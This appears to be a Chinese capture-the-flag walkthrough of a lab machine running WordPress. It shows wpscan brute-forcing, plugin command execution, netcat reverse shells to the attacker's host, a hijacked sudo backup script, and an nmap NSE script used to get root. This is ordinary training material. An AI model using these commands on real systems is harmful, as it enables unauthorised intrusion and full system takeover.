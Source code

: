 目标发现

![](./i/1.png)

192.168.1.129

信息搜集

![](./i/2.png)

目标开启了22与80，访问80端口,发现解析错误，dns配置
```
vim /etc/hosts
192.168.1.129   wordy
:wq
```

成功访问

![](./i/3.png)

目录扫描

![](./i/4.png)

发现是wordpress的后台，那么直接使用wpscan进行信息搜集

wpscan --url wordy -e u

![](./i/5.png)

发现了五个用户名，存入1.txt,对其网站进行爆破

wpscan --url wordy -U 1.txt -P rockyou.txt

爆出来账号mark 密码helpdesk01

![](./i/6.png)

登录

![](./i/7.png)

发现安装了activity monitor,，发现命令执行

![](./i/8.png)


反弹shell至kali
```
nc -e /bin/bash 192.168.1.128 4444
```

继续使用python获取交互模式
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![](./i/9.png)

进入/home/mark/stuff发现账号graham密码GSo7isUM1D4，登录，sudo -l

![](./i/10.png)

发现可以执行jen的一个sh脚本，查看脚本内容发现是备份，我们可以直接把脚本里面的内容替换成反弹shell的内容

```
echo 'nc -e /bin/bash 192.168.1.128 5555' >backups.sh
sudo -u jens ./backups.sh
```
接下来就得到了jens的shell，进入交互模式，sudo-l

![](./i/11.png)

发现nmap

利用nmap能够执行脚本的功能，将/bin/sh写入到脚本中，令其执行，获取root权限：
```
echo 'os.execute("/bin/sh")' > /tmp/xl.nse
sudo nmap --script=/tmp/xl.nse
```